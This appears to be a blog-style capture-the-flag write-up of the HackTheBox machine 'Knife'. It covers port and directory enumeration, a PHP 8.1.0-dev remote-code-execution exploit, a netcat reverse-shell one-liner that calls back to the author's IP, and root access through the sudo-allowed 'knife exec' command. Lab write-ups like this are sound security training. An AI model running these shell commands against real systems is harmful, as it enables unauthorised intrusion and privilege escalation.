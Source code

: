 ```yaml
---
title: "HackTheBox - Knife"
author: Nasrallah
description: ""
date: 2022-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, cve, sudo]
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Knife](https://app.hackthebox.com/machines/347) from [HackTheBox](https://hackthebox.com), it's an easy machine where we find a vulnerable version of php running, use an exploit for that to gain access to the machine, after that, we exploit a binary that we can run as root to gain privileged access.

## **Enumeration**

### nmap

As usual, let's run a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 15:44 EST
Nmap scan report for 10.10.10.242
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows that the machine has 2 open ports: 22(SSH) and 80(HTTP).

### HTTP

Let's navigate to the webpage.

![home](/assets/img/hackthebox/machines/knife/home.png)

It looks like we have an Emergent Medical Idea application, but there is nothing interesting.

### Gobuster

Let's scan for directories and files using `Gobuster`.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.242                                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/31 15:50:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

===============================================================
```

Nothing interesting here too.

### wappalyzer

Let's check the web page with Wappalyzer***(Wappalyzer is a browser extension that uncovers the technologies used on websites. It detects content management systems, eCommerce platforms, web servers, JavaScript frameworks, analytics tools and many more.)***

![wapp](/assets/img/hackthebox/machines/knife/wapp.png)

Let's google these technologies and see if we can find any vulnerability.

![cve](/assets/img/hackthebox/machines/knife/cve.png)

We found that `php 8.1.0-dev` has a Remote Code Execution vulnerability, let's download an exploit and see what we can do.

# **Foothold**

Let's run the exploit now.

```terminal
$ python3 php_exploit.py           
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

```

Great! we got a shell as **james**, but this is not a functional shell, let's get one by executing a reverse shell command than sends us james shell.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

>Note: Change the ip address in the command to yours and set up a listener before executing the command!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.242] 41496
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

james@knife:/$
```

Now we have a fully functional shell.

## **Privilege Escalation**

Let's check what can we run as root.

```terminal
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

We can run `knife` as root. We google knife binary and we find this [Documentation](https://docs.chef.io/workstation/knife/). When we look at the subcommands we see `exec`.

![exec](/assets/img/hackthebox/machines/knife/exec.png)

With `exec` sub command, we can run ruby scripts. and with our ability to run knife as root, we can give it a ruby script that drops us a root shell.`exec "/bin/bash"`

```terminal
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash"
root@knife:/home/james# whoami
root
root@knife:/home/james#
```

Great! We became root now.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
